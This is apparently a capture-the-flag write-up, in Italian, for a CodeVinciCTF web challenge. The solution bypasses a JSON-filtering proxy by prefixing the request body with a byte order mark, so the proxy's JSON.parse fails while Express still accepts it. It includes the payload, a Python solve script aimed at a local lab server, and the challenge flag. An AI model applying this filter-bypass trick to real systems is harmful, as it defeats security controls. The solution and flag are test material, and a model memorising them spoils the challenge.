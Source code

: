 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [<url>](<url>).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Lo scopo era creare un payload in json che rispecchiasse due condizioni:

* Il `backend`, ovvero un parser JSON di Express, lo doveva riconoscere come un JSON contenente una chiave `dammilaflag`.
* Il `proxy` non doveva riuscire ad analizzarlo come un valore JSON a `JSON.parse(req.body)`.
  
In conclusione, il seguente JSON li soddisfa, dove `\ufeff` è un [BOM (Byte Order Mark)](https://en.wikipedia.org/wiki/Byte_order_mark):
```js
\ufeff{"dammilaflag": true}
```

I framework web spesso consentono l'aggiunta di un BOM all'inizio dei valori JSON. Ad esempio, Fastify ed Express controllano un BOM a:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

D'altra parte, `JSON.parse` non consente un BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ dammilaflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

## Solve

```py
# Author: @benjamin

import requests

url = "http://localhost:4567"

payload = '\ufeff{"dammilaflag": true}'.encode('utf-8')  # UTF-8 BOM

r = requests.post(
    url,
    headers = {"Content-Type": "text/plain"},
    data = payload
)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
